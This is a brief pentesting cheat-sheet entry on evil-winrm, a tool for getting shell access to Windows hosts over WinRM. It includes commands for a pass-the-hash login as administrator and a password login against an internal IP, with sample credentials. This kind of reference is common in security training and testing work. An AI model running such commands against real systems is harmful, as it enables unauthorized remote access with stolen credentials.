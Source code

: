 # evil-winrm

* `evil-winrm` is used to take advantage of machines with port 5985 or 5986 open which is Powershell Remoting.
* This will provide shell level access to the machine with the user account that you have compromised. &#x20;
* You can auth either with a hash or password
* Supports SSL

### Usage

* Connect with pass the hash attack

```
evil-winrm -i 10.10.100.15 -u administrator -H "c2597747aa5e43022a3a3049a3c3b09d"
```

* Password Authentication:

```
evil-winrm -i 10.10.100.15 -u a-whitehat -p "bNdKVkjv3RR9ht"
```
